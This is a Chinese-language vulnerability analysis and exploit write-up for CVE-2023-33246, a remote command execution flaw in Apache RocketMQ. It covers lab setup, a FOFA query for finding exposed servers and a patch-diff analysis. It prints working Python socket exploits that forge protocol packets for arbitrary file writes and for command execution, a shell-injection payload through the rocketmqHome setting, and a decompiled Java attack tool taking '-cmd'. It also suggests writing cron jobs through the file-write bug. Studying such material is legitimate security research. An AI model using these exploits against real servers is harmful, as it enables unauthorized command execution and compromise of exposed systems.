

# 漏洞概述

​	Apache RocketMQ是一个分布式消息中间件，专为万亿级超大规模的消息处理而设计，具有高吞吐量、低延迟、海量堆积、顺序收发等特点。RocketMQ 5.1.0及以下版本，在一定条件下，存在远程命令执行风险。RocketMQ的NameServer（9876端口）、Broker（10911端口）、Controller等多个组件暴露在外网且缺乏权限验证，攻击者可以利用该漏洞利用更新配置功能以RocketMQ运行的系统用户身份执行命令。此外，攻击者可以通过伪造 RocketMQ 协议内容来达到同样的效果

**影响范围：**

  Apache RocketMQ <= 5.1.0

  Apache RocketMQ <= 4.9.5

**漏洞编号：**CVE-2023-33246

官网描述如下：


也即是多个组件暴露在外网且缺乏权限验证

这次的漏洞实际上是两个洞，但是只收录了一个，RCE的过程中，用到了前面的一部分

# 环境搭建

FOFA：title="RocketMQ"

## docker环境

拉取docker镜像

```
docker pull apache/rocketmq:5.1.0
docker pull apacherocketmq/rocketmq-console:2.0.0
```

启动namesrv

```
docker run -dit -p 9876:9876 -d -p 10909:10909 --name mqsrv -e "MAX_POSSIBLE_HEAP=100000000" apache/rocketmq:5.1.1 sh mqnamesrv /bin/bash
```

启动broker

```
docker run -dit -p 10909:10909 -p 10911:10911 --name mqbroker --restart=always --link mqsrv:namesrv -e "NAMESRV_ADDR=namesrv:9876" -e "MAX_POSSIBLE_HEAP=200000000" apache/rocketmq:5.1.0 sh mqbroker -c /home/rocketmq/rocketmq-5.1.0/conf/broker.conf
```

启动console

```
docker run -dit --name mqconsole -p 8089:8080 -e "JAVA_OPTS=-Drocketmq.config.namesrvAddr=mqsrv:9876 -Drocketmq.config.isVIPChannel=false" apacherocketmq/rocketmq-console:2.0.0
```

访问8089看到控制台，arm下这个docker有一些问题，这里就直接用二进制环境复现

## bin环境

```
./mqbroker
./mqnamesrv
./mqcontroller
```

其实可以只用broker组件来复现，任意文件写入是三个组件均存在的

# 漏洞复现

采用工具https://github.com/Le1a/CVE-2023-33246（该工具可以还原配置，不然要重复执行）

或者https://github.com/Serendipity-Lucky/CVE-2023-33246


两个工具用法稍微有一点不一样，具体用法看markdown文档，交互的过程用的自带的协议

python实现

```
import socket
import binascii
client = socket.socket()
# you ip
client.connect(('192.168.111.129',10911))
# data
json = '{"code":25,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='filterServerNums=1\nnamesrvAddr=127.0.0.1:9876\nrocketmqHome=1'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```

改一下rocketmqHome（怎么改可以看后面）

# 漏洞分析

## 任意文件写入

### 漏洞分析

补丁：https://github.com/apache/rocketmq/pull/6733/files


从补丁中可以看到对properties中增加了黑名单类

- brokerConfigPath（broker）
- configStorePath（controller）
- kvConfigPath（namesrv）

我们就用broker组件来实验


修改的点在src/main/java/org/apache/rocketmq/broker/processor/AdminBrokerProcessor.java的updateBrokerConfig方法

其实通过方法名称和里面的一些流程，可以大致看出来可以去修改brokerconfig里面的properties

这个方法可以解析请求包的body，接着更新配置，用到的是`Properties properties = MixAll.string2Properties(bodyStr);`进行解析body中的内容，根据update方法


我们来看到string2File，会写入fileName和fileName.bak两个文件


这里的fileName是通过getStorePath传进来的


在namesrv中，这个是configStorePath

### 漏洞复现

```
import socket
import binascii

client = socket.socket()
# you ip
client.connect(('127.0.0.1',9876))
# data
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='brokerConfigPath=/tmp/aaa/CaSO4.txt\nconfigStorePath=/tmp/aaa/DawnT0wn.txt\nkvConfigPath=123\\nMy name is DawnT0wn'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```

code是对应的功能


调用到DefaultRequestProcessor的updateConfig


通过//n的方式换行插入数据，可以写定时任务


## 任意代码执行

补丁：https://github.com/apache/rocketmq/pull/6749/files#diff-90b2c9df4cdd6dacc2cbccf461d3677f4fc0b83a209b055e9ad27729bffe646e


这次的补丁直接删除了FilterServerManager这个类，对BrokerController进行了简单的修改


关于filterServerManager的调用被删除了，我们来看到filterServerManager这个类

看到了与命令执行相关的方法


前面说获取config的，后面是执行命令的，我们不是windows系统的话会走到else分支执行命令，用sh执行startfsrv.sh，但是在此之前，拼接了`this.brokerController.getBrokerConfig().getRocketmqHome()`，如果RocketmqHome为`-c $@|sh . echo open -a Calculator;`的话，此时的命令就是`sh -c $@|sh . echo open -a Calculator;/bin/startfsrv.sh -n NamesrvAddr`

第一个命令是 `sh -c $@`，它使用 sh 解释器执行传递给程序的参数。在这段代码中，`$@` 表示接受传入的参数，并将它们作为命令来执行。

第二个命令是 `sh . echo open -a Calculator;/bin/startfsrv.sh -n NamesrvAddr`，这里会打印输出open -a Calculator并返回给`$@`变量。

最后执行`sh -c open -a Calculator`

我们往上看


这个run0是新建了一个线程，每30s就会触发

在这个代码中，`AbstractBrokerRunnable`是一个继承自`Runnable`的抽象类，它重写了`run0()`方法来执行具体的任务逻辑。在`run0()`方法中，`createFilterServer()`方法被调用，该方法用于创建过滤器服务器。

`scheduleAtFixedRate()`方法接受四个参数：

- 第一个参数是要执行的任务（`Runnable`对象）。
- 第二个参数是初始延迟时间，表示在开始执行任务之前等待的时间（以毫秒为单位）。
- 第三个参数是任务执行的时间间隔，表示每次任务开始执行之后，等待下一次执行的时间间隔（以毫秒为单位）。
- 第四个参数是时间单位，用于指定延迟时间和时间间隔的单位（例如，`TimeUnit.MILLISECONDS`表示毫秒）。

根据给定的参数，这段代码会在启动后的5秒钟之后开始执行第一次任务，然后每隔30秒执行一次。

在这个类的start方法会调用createFilterServer，而createFilterServer会调用刚才的buildStartCommand，如果more>0的话， 会触发callShell方法执行buildStartCommand获取到的命令


前提是要控制BrokerConfig，在前面我们已经控制了这个地方

往上发现在brokerController的startBasicService中对这里的start进行了调用



而brokerController的start方法调用了startBasicService


在启动broker的时候，BrokerStartup调用了controller的start方法


除此之外，我们要知道FilterServerManager的run0方法会每30s执行一次

前面任意文件写入的流程中，我们知道了updateBrokerConfig可以通过body更新properties


那么这里的NamesrvAddr和RocketmqHome也是可控的，以及FilterServerNums也是可控的

于是就可以达到任意代码执行的目的

最后交互的数据包


# EXP

前面贴出来了python的exp，是使用socket然后往里面塞入协议头，协议数据等实现的，协议主要包含四部分，协议总长度+json长度+json+body

```
import socket
import binascii
client = socket.socket()
# you ip
client.connect(('192.168.111.129',10911))
# data
json = '{"code":25,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='filterServerNums=1\nnamesrvAddr=127.0.0.1:9876\nrocketmqHome=1'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```

JAVA

在java中有已经封装好的依赖，在https://github.com/Le1a/CVE-2023-33246中可以发现


用到了org.apache.rocketmq.tools.admin.DefaultMQAdminExt

```
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.le1a;

import java.util.Properties;
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

public class Main {
    public Main() {
    }

    public static void main(String[] args) throws Exception {
        String cmd = null;
        String IP = null;
        String Port = null;
        String tmp = null;

        for(int i = 0; i < args.length; ++i) {
            if (args[i].equals("-ip") && i < args.length - 1) {
                tmp = args[i + 1];
            } else if (args[i].equals("-cmd") && i < args.length - 1) {
                cmd = args[i + 1];
            }
        }

        if (tmp != null && cmd != null) {
            String[] ip_port = tmp.split(":");
            if (ip_port.length == 2) {
                IP = ip_port[0];
                Port = ip_port[1];
            } else {
                System.out.println("参数输入有误，请检查!");
            }

            Properties props = new Properties();
            props.setProperty("rocketmqHome", "-c $@|sh . echo " + cmd + ";");
            props.setProperty("filterServerNums", "1");
            DefaultMQAdminExt admin = new DefaultMQAdminExt();
            admin.setNamesrvAddr("1.1.1.1:9876");
            admin.start();
            Properties brokerConfig = admin.getBrokerConfig(IP + ":" + Port);
            String rocketmqHome = brokerConfig.getProperty("rocketmqHome");
            System.out.println("初始rocketmqHome为: " + rocketmqHome);
            admin.updateBrokerConfig(IP + ":" + Port, props);
            System.out.println("攻击已结束!请稍后查看结果!");
            Thread.sleep(35000L);
            props.setProperty("rocketmqHome", rocketmqHome);
            admin.updateBrokerConfig(IP + ":" + Port, props);
            System.out.println("配置已经还原为: " + brokerConfig.getProperty("rocketmqHome") + "!");
            admin.shutdown();
        }

    }
}
```

可以直接去调用rocketmq的对应功能，就不用直接写在python中了，最后恢复了配置


致谢：Le1a，H3mesk1t

参考链接

http://www.lvyyevd.cn/archives/rocketmqrcecve-2023-33246-fen-xi

https://github.com/Le1a/CVE-2023-33246

https://github.com/apache/rocketmq/pull/6733/files

https://github.com/apache/rocketmq/pull/6749/files#diff-75dc81431f5bf53074b54cc9c7085b7dc1d1d2faede5f6e15593aa07b28f1509
